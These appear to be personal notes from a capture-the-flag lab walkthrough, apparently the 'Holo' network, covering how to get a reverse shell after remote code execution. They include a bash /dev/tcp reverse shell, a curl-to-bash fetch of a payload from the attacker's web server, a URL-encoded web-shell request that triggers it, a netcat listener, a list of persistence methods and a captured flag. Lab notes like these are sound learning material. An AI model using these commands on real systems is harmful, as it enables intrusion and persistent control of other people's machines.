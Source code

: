 
One thing to keep in mind that: How to get a reverse shell on a box once you have RCE:
- netcat 
- bash 
- python 
- perl


To start up a local web server on your attacking machine:
- http.server
- updog
- php

Reverse Shell
```bash
#!/bin/bash
bash -i >& /dev/tcp/10.50.104.169/4242 0>&1
```

Now will use the RCE vulnerability and try to load the payload and trigger it using the bash command which will run the payload and we should get the reverse shell 
```
curl http://10.50.104.169:8080/rev_shell.sh|bash &
```

So what to do after we gained a decent foothold and have a stable shell. Like we don't want to lose our foothold and redo the work if the machine is reset or our shell get's terminated.

SO different methods for persistence: LD_PRELOAD Backdoored binaries PAM backdoor SSH keys Malicious Services Cronjob Credential harvesting


```
curl 192.168.100.1:8080/shell.php?cmd=curl%20http%3A%2F%2F10.50.104.169%3A8080%2Frev_shell.sh%7Cbash%20%26
```
![[Pasted image 20240219212157.png]]


![[Pasted image 20240219212210.png]]


```
nc -lvnp 4242
```
![[Pasted image 20240219212229.png]]


```
HOLO{3792d7d80c4dcabb8a533afddf06f666}
```